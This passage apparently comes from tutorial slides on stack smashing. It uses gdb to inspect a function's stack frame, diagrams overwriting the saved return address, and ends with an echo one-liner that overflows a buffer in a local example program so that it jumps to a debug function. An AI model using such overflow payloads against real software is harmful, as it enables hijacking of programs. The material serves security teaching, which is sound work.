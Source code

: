 ???

This is what we expect to find if we look at the stack frame of `func1` during execution. So, let's
set a breakpoint somewhere inside `func1` and see if that's the case.

```
(gdb) disas func1
... (output elided) ...
(gdb) b *0x4005f1
(gdb) r
... (output elided) ...
(gdb) disas
... (output elided) ...
(gdb) x/6xg $rsp
... (output elided) ...
```

(at the time of this writing, the breakpoint is `0x4005f1`)

Ok we're not crazy! Now, knowing that I can overwrite the stack (remember the "AAA"), I want to
overwrite `ret` to point to the `debug` function instead of returning to main. What's the address of
`debug`?

```
(gdb) disas debug
... (output elided) ...
```

(at the time of this writing, debug is at `0x4005f3`)

---

# Stack Smashing (for fun)

```
             0x6C        0x68        0x64        0x58        0x44
             v           v           v           v           v
--------------------------------------------------------------------------------------
main         |    ret    |    rbp    |           |    name   |
stack        |  0x4005f3AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA| -->
frame        |  |  |  |  |  |  |  |  |  | ... |  |  | ... |  |
--------------------------------------------------------------------------------------
                                     ^                       ^
                                     rbp                     rsp
```

???

So why don't we try doing something like this?

```
$ echo -e "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xf3\x05\x40" | ./example-02
```
